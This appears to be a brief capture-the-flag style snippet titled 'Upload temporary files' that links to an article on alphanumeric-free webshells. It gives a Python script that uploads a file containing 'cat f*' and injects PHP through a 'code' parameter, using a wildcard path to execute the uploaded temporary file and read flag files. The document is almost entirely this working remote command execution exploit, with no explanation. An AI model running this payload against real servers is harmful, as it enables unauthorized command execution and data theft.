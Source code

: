 # Upload temporary files

Upload temporary file [Specific principle] (https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

```python
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)
```
